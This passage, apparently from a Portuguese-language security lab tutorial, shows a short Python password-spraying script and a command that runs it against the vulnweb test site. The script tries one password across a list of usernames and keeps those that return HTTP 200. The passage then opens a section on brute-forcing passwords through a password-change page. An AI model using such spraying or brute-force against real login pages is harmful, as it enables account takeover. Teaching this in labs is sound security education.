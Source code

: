 ```python


try:
    users = []
    for user in file:
        r = requests.post(url, data=data.replace("USERS", user).replace("PASS", password), headers=headers)

        if r.status_code == 200:
            users.append(user.strip())

    print("Usuários encontrados: " + str(users))
except:
    exit(0)
```

O script irá receber como parâmetro um arquivo com os usuários, a senha, a url que será realizada a requisição e os dados que serão utilizados na requisição, com isso ele irá realizar uma requisição para cada usuário com a senha informada. Caso as credencias existam, o site irá retornar um `status code 200` e o script irá adicionar o usuário na lista de usuários encontrados.

Agora vamos utilizar o script através do comando.

```bash
python password_spray.py -p "test" -u text.txt -U "http://testphp.vulnweb.com/userinfo.php" -d "uname=USERS&pass=PASS"
```

O comando acima utiliza a senha `test`, uma wordlist com os usuários `text.txt` e iremos realizar a requisição para a url `http://testphp.vulnweb.com/userinfo.php` com os dados `uname=USERS&pass=PASS` onde o script irá substituir o `USERS` pelo usuário e o `PASS` pela senha.

![password_spray](tool.png)

Podemos ver que o script encontrou o usuário `test`.

---

<div class="page"/>

## **<a id="2"> • Password brute-force via password change.</a>**

Nesse laboratório vamos aprender a fazer um brute-force na senha de um usuário através da página de alteração de senha.
